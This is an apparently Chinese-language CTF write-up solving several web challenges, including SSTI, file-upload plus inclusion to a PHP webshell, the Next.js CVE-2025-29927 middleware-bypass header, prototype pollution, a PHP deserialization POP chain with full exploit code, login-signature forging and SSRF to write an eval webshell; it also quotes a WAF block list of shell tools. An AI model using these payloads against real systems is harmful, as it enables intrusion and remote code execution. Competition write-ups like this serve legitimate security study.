









## 星愿信箱

看到有回显，并且回显是我们输入的内容，命令执行尝试无果之后结合服务器版本猜测是ssti

需要有汉字包含

```python
我
```

回显我64

直接打就行

```
POST / HTTP/1.1
Host: node6.anna.nssctf.cn:20413
Referer: http://node6.anna.nssctf.cn:20413/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Cookie: Hm_lvt_648a44a949074de73151ffaa0a832aec=1748152974
Origin: http://node6.anna.nssctf.cn:20413
Content-Type: application/json
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 11

{"cmd":""}
```

回显

```
app bin boot dev docker-entrypoint.sh etc flag home lib lib64 media mnt opt proc
root run sbin srv sys tmp usr var
```

然后直接读flag就行了，就最后过滤了一下cat命令

但是不知道为啥抓包后直接构造请求发包反而不需要汉字了

## easy_file

一个登录口，弱口令直接爆，不得不说yakit的功能太全面了，直接base64编码字典



发现弱口令admin/password，登录进去是一个文件上传，但是测了一下发现文件内容过滤了php，文件后缀名有txt和jpg白名单，然后一直卡住没思路，之后在登录界面发现了一个提示

```
//file查看头像
```

原来有一个file参数可以打文件包含，估计是这样

那我们直接传个jpg恶意文件

```
POST /admin.php HTTP/1.1
Host: node6.anna.nssctf.cn:29182
Cache-Control: max-age=0
Cookie: Hm_lvt_648a44a949074de73151ffaa0a832aec=1748152974; PHPSESSID=dd2f3e5bdb719c7599a2e36a0f88dc2b
Referer: http://node6.anna.nssctf.cn:29182/admin.php
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Origin: http://node6.anna.nssctf.cn:29182
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzZGBw5kqGfZBSlQm
Content-Length: 200

------WebKitFormBoundaryzZGBw5kqGfZBSlQm
Content-Disposition: form-data; name="avatar"; filename="1.jpg"
Content-Type: text/plain

<?=`$_POST[1]`?>
------WebKitFormBoundaryzZGBw5kqGfZBSlQm--

```

然后文件包含解析php代码

```
/admin.php?file=uploads/1.jpg
```

之后传命令就行

```
1=cat%20flllag.php
```

## nest_js

一开始以为是什么js的漏洞，结果发现弱口令admin/password登进去就拿到flag了，可能是我非预期了？



赛后复现一下，还是重新好好做一下

Next.js的框架，版本是15.2.2，搜一下CVE，发现一个CVE-2025-29927 ，很简单，就是一个鉴权绕过，直接打就行

```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

这里是/dashboard路由不是/login路由

## 多重宇宙日记

提示是原型链

注册后看到一个可以传JSON的口子，看一下源码

```javascript
<script>
        // 更新表单的JS提交
        document.getElementById('profileUpdateForm').addEventListener('submit', async function(event) {
            event.preventDefault();
            const statusEl = document.getElementById('updateStatus');
            const currentSettingsEl = document.getElementById('currentSettings');
            statusEl.textContent = '正在更新...';

            const formData = new FormData(event.target);
            const settingsPayload = {};
            // 构建 settings 对象，只包含有值的字段
            if (formData.get('theme')) settingsPayload.theme = formData.get('theme');
            if (formData.get('language')) settingsPayload.language = formData.get('language');
            // ...可以添加其他字段

            try {
                const response = await fetch('/api/profile/update', {
                    method: 'POST',
                    headers: {
                        'Content-Type': 'application/json',
                    },
                    body: JSON.stringify({ settings: settingsPayload }) // 包装在 "settings"键下
                });
                const result = await response.json();
                if (response.ok) {
                    statusEl.textContent = '成功: ' + result.message;
                    currentSettingsEl.textContent = JSON.stringify(result.settings, null, 2);
                    // 刷新页面以更新导航栏（如果isAdmin状态改变）
                    setTimeout(() => window.location.reload(), 1000);
                } else {
                    statusEl.textContent = '错误: ' + result.message;
                }
            } catch (error) {
                statusEl.textContent = '请求失败: ' + error.toString();
            }
        });

        // 发送原始JSON的函数
        async function sendRawJson() {
            const rawJson = document.getElementById('rawJsonSettings').value;
            const statusEl = document.getElementById('rawJsonStatus');
            const currentSettingsEl = document.getElementById('currentSettings');
            statusEl.textContent = '正在发送...';
            try {
                const parsedJson = JSON.parse(rawJson); // 确保是合法的JSON
                const response = await fetch('/api/profile/update', {
                    method: 'POST',
                    headers: {
                        'Content-Type': 'application/json',
                    },
                    body: JSON.stringify(parsedJson) // 直接发送用户输入的JSON
                });
                const result = await response.json();
                if (response.ok) {
                    statusEl.textContent = '成功: ' + result.message;
                    currentSettingsEl.textContent = JSON.stringify(result.settings, null, 2);
                     // 刷新页面以更新导航栏（如果isAdmin状态改变）
                    setTimeout(() => window.location.reload(), 1000);
                } else {
                    statusEl.textContent = '错误: ' + result.message;
                }
            } catch (error) {
                 statusEl.textContent = '请求失败或JSON无效: ' + error.toString();
            }
        }
    </script>
```

看到了需要传入的格式

```javas
if (formData.get('theme')) settingsPayload.theme = formData.get('theme');
if (formData.get('language')) settingsPayload.language = formData.get('language');
body: JSON.stringify({ settings: settingsPayload }) // 包装在 "settings"键下
```

那我们该污染什么呢？

```
刷新页面以更新导航栏（如果isAdmin状态改变）
```

估计是需要设置isAdmin为true吧，因为这里有更新设置，所以这里就是我们可以污染的地方

```
POST /api/profile/update HTTP/1.1
Host: node6.anna.nssctf.cn:28966
Origin: http://node6.anna.nssctf.cn:28966
Referer: http://node6.anna.nssctf.cn:28966/api/profile
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Cookie: Hm_lvt_648a44a949074de73151ffaa0a832aec=1748152974; PHPSESSID=dd2f3e5bdb719c7599a2e36a0f88dc2b; connect.sid=s%3Asft_5hy0wJmSER0ks3sVjQ0caWYw-LLi.x6fXJCabNklYBQlA%2BXmAsubXm%2FSwlTVwY0WCo%2BP3zHQ
Accept-Encoding: gzip, deflate
Content-Type: application/json
Accept: */*
Content-Length: 41

{"settings":{"theme":"1","language":"1","__proto__"{"isAdmin":true}}}
```

然后访问管理员面板



## 君の名は

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
create_function("", 'die(`/readflag`);');
class Taki
{
    private $musubi;
    private $magic;
    public function __unserialize(array $data)
    {
        $this->musubi = $data['musubi'];
        $this->magic = $data['magic'];
        return ($this->musubi)();
    }
    public function __call($func,$args){
        (new $args[0]($args[1]))->{$this->magic}();
    }
}

class Mitsuha
{
    private $memory;
    private $thread;
    public function __invoke()
    {
        return $this->memory.$this->thread;
    }
}

class KatawareDoki
{
    private $soul;
    private $kuchikamizake;
    private $name;

    public function __toString()
    {
        ($this->soul)->flag($this->kuchikamizake,$this->name);
        return "call error!no flag!";
    }
}

$Litctf2025 = $_POST['Litctf2025'];
if(!preg_match("/^[Oa]:[\d]+/i", $Litctf2025)){
    unserialize($Litctf2025);
}else{
    echo "把O改成C不就行了吗,笨蛋!～(∠・ω< )⌒☆";
}
```

链子先写一下

```
Taki::__unserialize->Mitsuha::__invoke()->KatawareDoki::__toString()->Taki::__call
```

主要看利用点

```php
(new $args[0]($args[1]))->{$this->magic}();
```

这里的话会实例化一个对象并调用对象的函数，但是类内的函数感觉没什么可以用得上的

再来看下面这段代码

```php
create_function("", 'die(`/readflag`);');
```

用create_function创建了一个匿名函数，直接执行了/readflag，所以我们现在的目的就是去调用这个匿名函数，所以我们的思路就是

1. 找到可以调用匿名函数的原生类
2. 找到匿名函数的名字

先找找原生类，翻官方手册看看



发现ReflectionFunction::invoke可以调用函数，看一下示例

```php
<?php
function title($title, $name)
{
    return sprintf("%s. %s\r\n", $title, $name);
}

$function = new ReflectionFunction('title');

echo $function->invoke('Dr', 'Phil');
?>
```

所以这里的话可以利用这个类去调用函数，然后我们需要解决第二个问题，就是函数名的问题

```php
<?php
$a = create_function("",'system("dir");');
echo $a;
```

测试发现



当你调用 `create_function` 时，它会返回一个字符串，格式为 `lambda_` 后跟一个数字（例如 `lambda_1`），表示生成的匿名函数的名称。

这里没把前面的字符输出，我们换个输出函数

```php
<?php
$a = create_function("",'system("dir");');
var_dump(urlencode($a));
//string(11) "%00lambda_1"
```

但是这里还有一个细节，就是在函数名前面有一个空字符



在weby页面打开的时候没刷新一次后面的数字就会增加1，所以需要注意这个点

还需要注意一个地方就是`__call魔术方法`的传参问题

```php
__call($func,$args)
```

如果我们触发的函数是

```
flag($this->kuchikamizake,$this->name)
```

那么$func参数就是flag，$args就是$this->kuchikamizake,$this->name

然后我们来看一下绕过

```php
$Litctf2025 = $_POST['Litctf2025'];
if(!preg_match("/^[Oa]:[\d]+/i", $Litctf2025)){
    unserialize($Litctf2025);
}else{
    echo "把O改成C不就行了吗,笨蛋!～(∠・ω< )⌒☆";
}
```

用原生类对链子进行包装，O换成C就行，之前就学过

我们先写exp

```php
<?php
class Taki
{
    public $musubi;
    public $magic;
}

class Mitsuha
{
    public $memory;
    public $thread;
}

class KatawareDoki
{
    public $soul;
    public $kuchikamizake;
    public $name;

}
//Taki::__unserialize->Mitsuha::__invoke()->KatawareDoki::__toString()->Taki::__call
$a = new Taki();
$a -> musubi = new Mitsuha();
$a -> musubi -> thread = new KatawareDoki();
$a -> musubi -> thread -> kuchikamizake = "ReflectionFunction";
$a -> musubi -> thread -> name = "%00lambda_1";
$a -> musubi -> thread -> soul = new Taki();
$a -> musubi -> thread -> soul -> magic = "invoke";
$aa = new ArrayObject($a);
echo serialize($aa);
```

输出

```
C:11:"ArrayObject":270:{x:i:0;O:4:"Taki":2:{s:6:"musubi";O:7:"Mitsuha":2:{s:6:"memory";N;s:6:"thread";O:12:"KatawareDoki":3:{s:4:"soul";O:4:"Taki":2:{s:6:"musubi";N;s:5:"magic";s:6:"invoke";}s:13:"kuchikamizake";s:18:"ReflectionFunction";s:4:"name";s:11:"%00lambda_1";}}s:5:"magic";N;};m:a:0:{}}
```

这里进行了包装，但是在反序列化的时候会触发原生类的unserialize方法，会对内容进行反序列化，所以可以成功绕过

编码后传入

```
Litctf2025=C%3a11%3a%22ArrayObject%22%3a270%3a%7bx%3ai%3a0%3bO%3a4%3a%22Taki%22%3a2%3a%7bs%3a6%3a%22musubi%22%3bO%3a7%3a%22Mitsuha%22%3a2%3a%7bs%3a6%3a%22memory%22%3bN%3bs%3a6%3a%22thread%22%3bO%3a12%3a%22KatawareDoki%22%3a3%3a%7bs%3a4%3a%22soul%22%3bO%3a4%3a%22Taki%22%3a2%3a%7bs%3a6%3a%22musubi%22%3bN%3bs%3a5%3a%22magic%22%3bs%3a6%3a%22invoke%22%3b%7ds%3a13%3a%22kuchikamizake%22%3bs%3a18%3a%22ReflectionFunction%22%3bs%3a4%3a%22name%22%3bs%3a11%3a%22%2500lambda_1%22%3b%7d%7ds%3a5%3a%22magic%22%3bN%3b%7d%3bm%3aa%3a0%3a%7b%7d%7d
```

有点奇怪没打通，但是没看出来哪里有问题emmmm

看看出题人的exp

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class Taki
{
    public $musubi;
    public $magic = "invoke";
}

class Mitsuha
{
    public $memory;
    public $thread;
}

class KatawareDoki
{
    public $soul;
    public $kuchikamizake = "ReflectionFunction";
    public $name = "\000lambda_1";
}
$a = new Taki();
$b = new Mitsuha();
$c = new KatawareDoki();

$a->musubi = $b;		// 1.把对象当成函数调用，触发__invoke()
$b->thread = $c;		// 2. 把对象作为字符串使用，触发__toString()
$c->soul = $a;			// 3. 调用不存在的方法，触发__call()

$arr=array("evil"=>$a);
$d=new ArrayObject($arr);
echo urlencode(serialize($d));

```

```
Litctf2025=C%3A11%3A%22ArrayObject%22%3A244%3A%7Bx%3Ai%3A0%3Ba%3A1%3A%7Bs%3A4%3A%22evil%22%3BO%3A4%3A%22Taki%22%3A2%3A%7Bs%3A6%3A%22musubi%22%3BO%3A7%3A%22Mitsuha%22%3A2%3A%7Bs%3A6%3A%22memory%22%3BN%3Bs%3A6%3A%22thread%22%3BO%3A12%3A%22KatawareDoki%22%3A3%3A%7Bs%3A4%3A%22soul%22%3Br%3A4%3Bs%3A13%3A%22kuchikamizake%22%3Bs%3A18%3A%22ReflectionFunction%22%3Bs%3A4%3A%22name%22%3Bs%3A9%3A%22%00lambda_1%22%3B%7D%7Ds%3A5%3A%22magic%22%3Bs%3A6%3A%22invoke%22%3B%7D%7D%3Bm%3Aa%3A0%3A%7B%7D%7D
```

## easy_signin

打开403？扫一下目录看看

```
[12:29:08] Scanning:
[12:29:20] 301 -   169B - /api  ->  http://node6.anna.nssctf.cn/api/
[12:29:20] 403 -   555B - /api/
[12:29:21] 301 -   169B - /backup  ->  http://node6.anna.nssctf.cn/backup/
[12:29:21] 403 -   555B - /backup/
[12:29:24] 302 -     0B - /dashboard.php  ->  /login.html
[12:29:28] 200 -    51B - /login.php
[12:29:28] 200 -    6KB - /login.html
```

访问/login.html来到登录口，用户名是固定的，然后在源码中看到api.js，访问是`/api/sys/urlcode.php?url=`，猜测是SSRF

访问一下百度发现可以出来，但是测试访问传入system的php文件发现是在本机执行的命令而不是靶机



在登录界面有js源码

```javascript
    <script>
        const loginBtn = document.getElementById('loginBtn');
        const passwordInput = document.getElementById('password');
        const errorTip = document.getElementById('errorTip');
        const rawUsername = document.getElementById('username').value; 

     
        loginBtn.addEventListener('click', async () => {
            const rawPassword = passwordInput.value.trim();
            if (!rawPassword) {
                errorTip.textContent = '请输入密码';
                errorTip.classList.add('show');
                passwordInput.focus();
                return;
            }

            const md5Username = CryptoJS.MD5(rawUsername).toString();   
            const md5Password = CryptoJS.MD5(rawPassword).toString();   

     
            const shortMd5User = md5Username.slice(0, 6);  
            const shortMd5Pass = md5Password.slice(0, 6);  

          
            const timestamp = Date.now().toString(); //五分钟

       
            const secretKey = 'easy_signin';  
            const sign = CryptoJS.MD5(shortMd5User + shortMd5Pass + timestamp + secretKey).toString();

            try {
                const response = await fetch('login.php', {
                    method: 'POST',
                    headers: {
                        'Content-Type': 'application/x-www-form-urlencoded',
                        'X-Sign': sign  
                    },
                    body: new URLSearchParams({
                        username: md5Username,   
                        password: md5Password,   
                        timestamp: timestamp
                    })
                });

                const result = await response.json();
                if (result.code === 200) {
                    alert('登录成功！');
                    window.location.href = 'dashboard.php'; 
                } else {
                    errorTip.textContent = result.msg;
                    errorTip.classList.add('show');
                    passwordInput.value = '';
                    passwordInput.focus();
                    setTimeout(() => errorTip.classList.remove('show'), 3000);
                }
            } catch (error) {
                errorTip.textContent = '网络请求失败';
                errorTip.classList.add('show');
                setTimeout(() => errorTip.classList.remove('show'), 3000);
            }
        });

        passwordInput.addEventListener('input', () => {
            errorTip.classList.remove('show');
        });
    </script>
```

这里的话有一个加密签名的登录验证

这里对对账号密码进行md5加密并取前六位，然后生成时间戳，结合key密钥生成签名，在请求头中携带签名

之前爆破拿到弱口令admin/admin123，但是有签名验证

```javascript
const timestamp = Date.now().toString();
```

这里生成的时间戳是毫秒级的，所以我们也需要生成毫秒级的时间戳去登录验证

验证的话得写个脚本去试试

```python
import hashlib
import requests
import time

url = "http://node6.anna.nssctf.cn:20082/login.php"
#已知的账号密码和key
secretkey = "easy_signin"
username = "admin"
password = "admin123"

#获取当前时间戳（毫秒级）
timestamp_ms = str(int(time.time() * 1000))

#md5的密码
md5_username = hashlib.md5(username.encode()).hexdigest()
md5_password = hashlib.md5(password.encode()).hexdigest()

#取前六位
md5_username6 = md5_username[:6]
md5_password6 = md5_password[:6]

sign = hashlib.md5((md5_username6 + md5_password6 + timestamp_ms + secretkey).encode()).hexdigest()

headers = {
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Sign": sign
}

data = {
    "username": md5_username,
    "password": md5_password,
    "timestamp": timestamp_ms
}
r = requests.post(url,data=data,headers=headers)
print(r.text)
print(sign)

```



说明签名验证是对的，那我们抓包获取当前时间戳

```python
from datetime import datetime
import hashlib

timestamp_ms = "1748495603974"
print(timestamp_ms)

#已知的账号密码和key
secretkey = "easy_signin"
username = "admin"
password = "admin123"
#md5的密码
md5_username = hashlib.md5(username.encode()).hexdigest()
md5_password = hashlib.md5(password.encode()).hexdigest()
print(md5_username)
print(md5_password)

#取前六位
md5_username6 = md5_username[:6]
md5_password6 = md5_password[:6]

sign = hashlib.md5((md5_username6 + md5_password6 + timestamp_ms + secretkey).encode()).hexdigest()
print(sign)
```

挨个换一下然后放包就行



有一个路由，但是访问出来显示非本地用户，想起之前那个url参数，试着传一下看看

```
/api/sys/urlcode.php?url=127.0.0.1/backup/8e0132966053d4bf8b2dbe4ede25502b.php
```

```php
<?php
if ($_SERVER['REMOTE_ADDR'] == '127.0.0.1') {
highlight_file(__FILE__);

$name="waf";
$name = $_GET['name'];


if (preg_match('/\b(nc|bash|sh)\b/i', $name)) {
    echo "waf!!";
    exit;
}


if (preg_match('/more|less|head|sort/', $name)) {
    echo "waf";
    exit;
}


if (preg_match('/tail|sed|cut|awk|strings|od|ping/', $name)) {
    echo "waf!";
    exit;
}

exec($name, $output, $return_var);
echo "执行结果：\n";
print_r($output);
echo "\n返回码：$return_var";
} else {
    echo("非本地用户");
}

?>
```

ls看了一下当前目录和根目录，发现都没有flag，那我们写个马子

```
/api/sys/urlcode.php?url=127.0.0.1/backup/8e0132966053d4bf8b2dbe4ede25502b.php?name=echo${IFS}"<?php${IFS}eval(\$_POST[1]);?>">/var/www/html/1.php
```

连上访问327a6c4304ad5938eaf0efb6cc3e53dc.php就有flag了
